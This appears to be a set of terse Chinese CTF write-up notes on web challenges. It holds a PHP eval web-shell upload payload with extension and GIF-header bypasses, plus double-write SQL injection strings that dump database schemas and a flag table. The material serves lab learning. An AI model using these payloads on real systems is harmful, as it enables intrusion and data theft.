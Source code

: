 过滤 `?`  短标签绕过 `<script language="php">eval($_POST[shell]);</script>`

检查内容 添加 `GIF89A`

修改后缀 phtml 常见修改：`php,php3,php4,php5,phtml.pht ,phps`

上传成功，直接去upload目录，蚁剑连接

---
# [极客大挑战 2019]BabySQL

- 考点： SQL 注入双写绕过

可以看到 or被替换为空了，双写试试：

![](https://img-blog.csdnimg.cn/20210422164954762.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
绕过：

![](https://img-blog.csdnimg.cn/20210422165006349.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
union,select 同理

```
ununionion seselectlect 1,2,3 %23

过滤了from or where：
ununionion seselectlect 1,group_concat(schema_name),3 frfromom infoorrmation_schema.schemata%23

ununionion seselectlect 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whewherere table_schema=’ctf’ %23

ununionion seselectlect 1,group_concat(column_name),3 frfromom infoorrmation_schema.columns whewherere table_name=’Flag’ %23

ununionion seselectlect 1,flag ,3 frfromom (ctf.Flag) %23 //另外的库和表名这样读取
```

---
# [ACTF2020 新生赛]Upload
上传，改后缀phtml phps

---
# [BackupFile]
源码泄露，dirsearch 扫到index.php.bak
Php弱比较


---
# [HCTF 2018]admin
- 考点：flask-session
